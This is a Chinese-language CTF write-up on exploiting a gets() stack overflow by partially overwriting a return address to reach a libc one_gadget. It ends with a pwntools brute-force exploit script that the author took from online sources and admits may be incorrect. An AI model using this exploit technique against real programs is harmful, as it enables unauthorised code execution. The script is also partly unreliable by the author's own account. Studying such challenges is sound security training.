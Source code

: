 没有后门函数，没有'/bin/sh'，只有孤零零的gets

![image-20210412190914641](https://i.loli.net/2021/04/12/x7uXELoTJcAOtjq.png)

如果要拿到shell，必须跳转到libc里的execve

随便输入点什么东西，看看程序在ret指令时栈上的情况

栈上有两个返回地址，一个是0x7ffff7a03bf7(__libc_start_main+231)，在libc中，另一个是0x7ffff7de38d3(_dl_init+259)，一个比较自然的想法就是我们通过 partial overwrite 来修改这两个地址到某个获取 shell 的位置，那自然就是 Onegadget 了。那么我们究竟覆盖哪一个呢？

首先，partial overwrite针对的是低12bits，也就是说至少得修改一个半字节，由于payload发送以字节为单位，所以至少会修改两个字节，又因为gets会自动在读入的payload后面加上'\x00'，所以我们的**payload至少会修改三个字节**。

如果覆盖第一个返回地址，则函数执行完返回到0x7ffff700xxxx，这显然已经不在libc的范围内了，小于libc的基地址了，而libc前面也没有刻意执行的代码位置。更何况一般来说 libc_start_main 在 libc 中的偏移不会差的太多，如果覆盖这个地址，会让程序返回到一个不在libc中的地址。

如果覆盖第二个返回地址并把这个返回地址作为该函数执行完后返回的地址，则返回到0x7ffff700xxxx，libc位于 ld 的低地址方向，那么在随机化的时候，很有可能 libc 的第 3 个字节是为\x00 的。举个例子，目前两者之间的偏移为0x7ffff7ffc000-0x7ffff79e2000=0x61a000，且经过多次实验发现在每次加载中，Id.so和libc.so的加载地址的相对位置是固定的，也就是偏移量不变，那么如果 ld 被加载到了 0x7ffff761a000，则显然 libc 的起始地址就是0x7ffff7000000。

证明见https://zhuanlan.zhihu.com/p/363113207

ctf-wiki接下来因不知libc版本，采取了随便覆盖，根据报错信息来判断的方法确定libc版本。这里因为buuctf上给出了ubuntu16的信息和libc版本，所以就直接下载下来了

使用one_gadget查看libc中gadgets的偏移

![image-20210412204613875](https://i.loli.net/2021/04/12/Bw3T7QYLRi9hVlW.png)

现在还不确定用哪个gadgets。

怎么才能覆盖并返回到栈中如此靠后的一个地址呢？

![image-20210412205053966](https://i.loli.net/2021/04/12/AfexNPa52nmRvw9.png)

用__libc_csu_init中的gadget，不断pop即可使esp最终指向该地址

本地能打通的exp（借鉴网络）：个人感觉并不正确，因为在跳转到one_gadget时并没有满足要求[rsp + 0x30] = 0，不知道为什么能打通

打了好久

![image-20210413015552239](https://i.loli.net/2021/04/13/t4f8QU5lhG2nd7C.png)

```
from pwn import *

# context.arch = 'amd64'
# context.log_level = 'debug'
# context.terminal = ['deepin-terminal', '-x', 'sh' ,'-c']
offset = 0x18

while True:
    try:    
        p = process('./pwn')
        payload='a' * offset + p64(0x40059B)
        payload += 'b' * 8 * 5 + p64(0x40059B) + 'c' * 8 * 5 + p64(0x40059B)
        payload += 'c' * 8 * 5 + '\x26\x02'
        #gdb.attach(p)
        p.sendline(payload)
        p.sendline('ls')
        data = p.recv()
        print data
        p.interactive()
        p.close()
    except Exception:
        p.close()
        continue
```
